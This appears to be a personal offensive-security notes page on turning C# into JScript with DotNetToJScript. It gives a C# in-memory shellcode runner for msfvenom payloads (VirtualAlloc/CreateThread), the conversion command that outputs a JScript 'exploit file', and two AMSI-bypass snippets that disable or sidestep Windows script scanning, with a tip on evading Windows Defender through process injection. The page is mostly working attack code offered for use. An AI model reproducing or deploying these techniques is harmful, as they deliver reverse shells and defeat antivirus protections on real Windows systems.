 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: DotNetToJS
---
```



<span style="font-size: 35px; color:red"><b>DotNetToJS</b></span>

https://github.com/tyranid/DotNetToJScript

Execute C# assembly from Jscript.

Jscript shellcode runner in memory using DotNetToJScript:
Start from DotNetToJScript's file called <span style="color:red">ExampleAssembly/TestClass.cs</span>.
Create payload with msfvenom payload as x64 csharp, compile on VS as x64 DLL.

```cs
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
      uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
      IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
    public TestClass()

    {
        byte[] buf = new byte[647] {0xfc,0x48,0x83,0xe4,0xf0,0xe8, //... you can add in column, no problem

        int size = buf.Length;
        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
        Marshal.Copy(buf, 0, addr, size);
        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }
  
    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}
```

Put DotNetToJScript.exe, ExampleAssembly.dll (the output file from above) and NDesk.Options.dll in the same folder and from shell run:
```shell
DotNetToJScript.exe <INPUT_DLL> --lang=Jscript --ver=v4 -o <OUTPUT_JS>
```

It will output a .js that you can use as exploit file.

<span style="font-size: 25px; color:white"><b>AMSI Bypass</b></span>

Jscript tries to query the "AmsiEnable" registry key from the HKCU hive before initializing AMSI. If this key is set to "0", AMSI is not enabled for the Jscript process.
You can add this to the original .js exploit outputted from the method above to have a fully functional revshell with AMSI bypass.

```js
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\AmsiEnable";
try{
	var AmsiEnable = sh.RegRead(key);
	if(AmsiEnable!=0){
	throw new Error(1, '');
	}
}catch(e){
	sh.RegWrite(key, 0, "REG_DWORD");
	sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} "+WScript.ScriptFullName,0,1);
	sh.RegWrite(key, 1, "REG_DWORD");
	WScript.Quit(1);
}
```

OR

```js
var filesys= new ActiveXObject("Scripting.FileSystemObject");
var sh = new ActiveXObject('WScript.Shell');
try
{
	if(filesys.FileExists("C:\\Windows\\Tasks\\AMSI.dll")==0)
	{
		throw new Error(1, '');
	}
}
catch(e)
{
	filesys.CopyFile("C:\\Windows\\System32\\wscript.exe", "C:\\Windows\\Tasks\\AMSI.dll");
	sh.Exec("C:\\Windows\\Tasks\\AMSI.dll -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} "+WScript.ScriptFullName);
	WScript.Quit(1);
}
```
This last one might be flagged bi WinDef, but we can use it and immediately migrate the process or perform process injection or hollowing.
